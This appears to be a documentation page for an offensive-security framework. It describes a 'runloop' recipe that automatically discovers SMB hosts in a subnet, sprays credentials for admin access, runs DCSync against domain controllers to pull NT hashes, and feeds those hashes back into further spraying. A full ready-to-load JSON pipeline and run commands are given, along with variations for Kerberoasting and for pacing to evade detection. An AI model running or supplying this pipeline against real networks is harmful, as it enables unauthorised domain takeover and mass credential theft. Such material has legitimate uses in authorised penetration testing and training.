

# Runloop convergence

Wire discovery, authentication and exploitation into a single
self-feeding pipeline. Run it under `runloop` and walk away — every
new target the portscan discovers gets fingerprinted, every new
credential DCSync produces gets sprayed back across the inventory,
and the engine stops on its own when the project store stops growing.

This is the recipe that shows why the whole framework exists.

---

## Goal

Given a CIDR and a single starting credential, end up with: every
SMB host discovered, every credential that works on each of them,
and (if anything in the chain produces NT hashes) every plaintext
the local Hashcat can recover — and stop when no further progress
is possible.

---

## Pipeline



---

## What the runloop does

Run with `runloop`. The first pass:

1. `SOURCE_RAW_TARGETS` emits the raw input strings;
   `STORE_TARGETS` registers them as stored targets so they pick up
   `__tid` values.
2. `SOURCE_TARGETS_NEW` and `SOURCE_CREDENTIALS_NEW` see all the
   targets / credentials in the store for the first time.
3. The portscan + finger + spray + DCSync chain runs against every
   new combination.
4. Any NT hashes DCSync extracts go to `CREDENTIAL_QUEUE`.

The second pass:

- `seen_target_ids` already contains every target processed last
  pass, so `SOURCE_TARGETS_NEW` only emits genuinely new ones — for
  example, hostnames that were added because LDAP enumeration
  appended them mid-run.
- `cred_queue` holds the DCSync hashes from pass 1; they are
  re-emitted as "new credentials" and routed through `CREDMUX`,
  `SCANNER_SMBADMIN` and `CMD_DCSYNC` again — but only against
  targets that have not already been admin-checked with the same
  credential thanks to `skip_done=true`.

The third pass:

- Probably nothing new at all. `seen_*` did not grow; both queues
  are empty. The runloop logs "Nothing new after iteration 3.
  Done." and exits.

---

## Block-by-block

- [`SOURCE_RAW_TARGETS`](../blocks/sources.md) +
  [`STORE_TARGETS`](../blocks/sources.md) — boots the project with
  the raw inputs; subsequent passes ignore this branch because the
  raw source only fires once.
- [`SOURCE_TARGETS_NEW`](../blocks/sources.md) +
  [`SOURCE_CREDENTIALS_NEW`](../blocks/sources.md) — the actual
  pulse of the runloop. Anything queued or freshly added between
  passes is what each pass actually sees.
- [`SCANNER_PORTSCAN`](../blocks/scanners.md) with
  `skip_target=true` — only re-scans hosts that have not produced
  results yet. Important: without this you re-scan everything every
  pass.
- [`FILTER_TARGETS`](../blocks/filters.md) — restrict to hosts with
  445/TCP open.
- [`SCANNER_SMBFINGER`](../blocks/scanners.md) — populates the
  asset inventory; `TAP_SINK` makes the results inspectable.
- [`SCANNER_SMBADMIN`](../blocks/scanners.md) with `skip_done=true`
  — does not retry `(host, credential)` pairs already attempted.
- [`OPEN_SESSION_DCEDRSUAPI`](../blocks/sessions.md) +
  [`CMD_DCSYNC`](../blocks/attacks.md) — only fires against the
  successful admin pairs (the `FILTER` checks `SHARE==true`).
- [`CREDENTIAL_QUEUE`](../blocks/queues-sinks.md) — feeds the next
  pass.

The `skip_done` / `skip_target` flags are crucial here. Without them,
every pass redoes everything and the runloop never converges.

---

## Saved graph

```json
{
  "id": "runloop-discover-iterate",
  "name": "Runloop convergence",
  "description": "Self-feeding discovery + spray + DCSync pipeline.",
  "nodes": [
    {"id": "raw-1",      "block_type_id": "SOURCE_RAW_TARGETS",     "params": {"targets": ["192.168.1.0/24"]}, "position": {"x":   0, "y":   0}},
    {"id": "store-1",    "block_type_id": "STORE_TARGETS",          "params": {}, "position": {"x": 260, "y":   0}},
    {"id": "tgt-1",      "block_type_id": "SOURCE_TARGETS_NEW",     "params": {}, "position": {"x":   0, "y": 140}},
    {"id": "ps-1",       "block_type_id": "SCANNER_PORTSCAN",       "params": {"ports": ["445"], "skip_target": true, "timeout": 4}, "position": {"x": 260, "y": 140}},
    {"id": "pf-1",       "block_type_id": "FILTER_TARGETS",          "params": {"key": "port", "op": "eq", "value": "445"}, "position": {"x": 520, "y": 140}},
    {"id": "smbf-1",     "block_type_id": "SCANNER_SMBFINGER",       "params": {"timeout": 8}, "position": {"x": 780, "y":  40}},
    {"id": "tap-1",      "block_type_id": "TAP_SINK",                "params": {}, "position": {"x": 1040, "y":  40}},
    {"id": "cred-1",     "block_type_id": "SOURCE_CREDENTIALS_NEW", "params": {}, "position": {"x":   0, "y": 320}},
    {"id": "mux-1",      "block_type_id": "CREDMUX",                "params": {}, "position": {"x": 260, "y": 320}},
    {"id": "spray-1",    "block_type_id": "SCANNER_SMBADMIN",        "params": {"skip_done": true, "timeout": 8}, "position": {"x": 780, "y": 220}},
    {"id": "adm-1",      "block_type_id": "FILTER",                  "params": {"key": "SHARE", "op": "eq", "value": "true"}, "position": {"x": 1040, "y": 220}},
    {"id": "open-1",     "block_type_id": "OPEN_SESSION_DCEDRSUAPI", "params": {"atype": "NTLM"}, "position": {"x": 1300, "y": 220}},
    {"id": "dcsync-1",   "block_type_id": "CMD_DCSYNC",              "params": {"storecreds": true}, "position": {"x": 1560, "y": 220}},
    {"id": "cq-1",       "block_type_id": "CREDENTIAL_QUEUE",        "params": {}, "position": {"x": 1820, "y": 220}},
    {"id": "drop-1",     "block_type_id": "TERMINATOR_SINK",         "params": {}, "position": {"x": 1300, "y": 420}}
  ],
  "edges": [
    {"id": "e01", "from_node": "raw-1",    "from_port": "target",     "to_node": "store-1",  "to_port": "raw_target"},

    {"id": "e02", "from_node": "tgt-1",    "from_port": "target",     "to_node": "ps-1",     "to_port": "target"},
    {"id": "e03", "from_node": "ps-1",     "from_port": "result",     "to_node": "pf-1",     "to_port": "target"},
    {"id": "e04", "from_node": "pf-1",     "from_port": "match",      "to_node": "smbf-1",   "to_port": "target"},
    {"id": "e05", "from_node": "pf-1",     "from_port": "match",      "to_node": "spray-1",  "to_port": "target"},
    {"id": "e06", "from_node": "pf-1",     "from_port": "match",      "to_node": "open-1",   "to_port": "host"},
    {"id": "e07", "from_node": "smbf-1",   "from_port": "result",     "to_node": "tap-1",    "to_port": "data"},

    {"id": "e08", "from_node": "cred-1",   "from_port": "credential", "to_node": "mux-1",    "to_port": "credential_in"},
    {"id": "e09", "from_node": "mux-1",    "from_port": "smb",        "to_node": "spray-1",  "to_port": "credential"},
    {"id": "e10", "from_node": "mux-1",    "from_port": "dcedrsuapi", "to_node": "open-1",   "to_port": "credential"},

    {"id": "e11", "from_node": "spray-1",  "from_port": "result",     "to_node": "adm-1",    "to_port": "data"},
    {"id": "e12", "from_node": "adm-1",    "from_port": "match",      "to_node": "open-1",   "to_port": "host"},
    {"id": "e13", "from_node": "adm-1",    "from_port": "no_match",   "to_node": "drop-1",   "to_port": "data"},

    {"id": "e14", "from_node": "open-1",   "from_port": "session",    "to_node": "dcsync-1", "to_port": "session"},
    {"id": "e15", "from_node": "open-1",   "from_port": "error",      "to_node": "drop-1",   "to_port": "data"},

    {"id": "e16", "from_node": "dcsync-1", "from_port": "result",     "to_node": "cq-1",     "to_port": "credential"}
  ]
}
```

Run it with:

```
> loadfile /tmp/runloop-discover-iterate.json
> resetstate
> runloop 10
```

`runloop 10` caps it to ten iterations so a runaway misconfiguration
does not eat your engagement window.

---

## Assembled view


---

## Variations

- **Add a roast + crack branch.** Combine with the
  [Kerberoast and crack](kerberoast-and-crack.md) recipe by adding
  its blocks alongside this graph. Both branches feed the same
  `CREDENTIAL_QUEUE` and `SOURCE_CREDENTIALS_NEW`, so the runloop
  converges across both attack paths at once.
- **Wrap the SMB sub-chain as a composite.** Select
  `SOURCE_TARGETS_NEW → … → SCANNER_SMBADMIN` and turn it into a
  named composite (`COMPOSITE_SMBDiscovery`). The top-level graph
  becomes much easier to read; the composite is reusable in other
  engagements.
- **Opsec-tighten everything.** Set the global pacing knobs first:
  `setmaxconcurrent 3`, `setrate 18`, `setjitter 1 4`, `setdelay 30`.
  The runloop still converges; it just gets there over the next
  hour rather than the next ninety seconds.
